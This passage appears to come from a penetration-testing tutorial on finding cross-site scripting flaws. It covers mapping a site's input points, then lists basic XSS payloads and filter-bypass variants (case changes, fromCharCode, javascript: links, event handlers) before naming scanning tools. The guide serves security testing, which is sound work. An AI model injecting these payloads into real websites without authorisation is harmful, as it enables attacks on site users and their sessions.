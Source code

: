 **Example of attack surface mapping:**

For a target website `https://example.com`, you might enumerate:
- All GET parameters: `?search=`, `?id=`, `?redirect=`
- All POST forms: login, comment, contact, search
- User content areas: profiles, comments, reviews
- Custom HTTP headers accepted by the application

### 2. Input Validation Testing

Once you've identified potential entry points, systematically test each one with various payloads to determine if and how user input is validated, encoded, or sanitized.

#### Basic XSS Test Payloads

Start with simple payloads to test for basic filtering:

```javascript
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<body onload="alert('XSS')">
```

#### Filter Bypass Techniques

If basic payloads are blocked, try various evasion techniques:

**Case manipulation:**
```javascript
<ScRiPt>alert('XSS')</sCrIpT>
```

**Encoding variations:**
```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

**HTML entity encoding:**
```javascript
&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;
```

**JavaScript protocol in attributes:**
```html
<a href="javascript:alert('XSS')">Click me</a>
```

**Event handlers:**
```html
<div onmouseover="alert('XSS')">Hover over me</div>
```

### 3. Automated Scanning

Use specialized tools to automate the discovery process:

- **OWASP ZAP**: Open-source integrated penetration testing tool
- **Burp Suite**: Industry-standard web application security testing platform
- **XSStrike**: Python-based XSS scanning suite
- **Nuclei**: Template-based vulnerability scanner

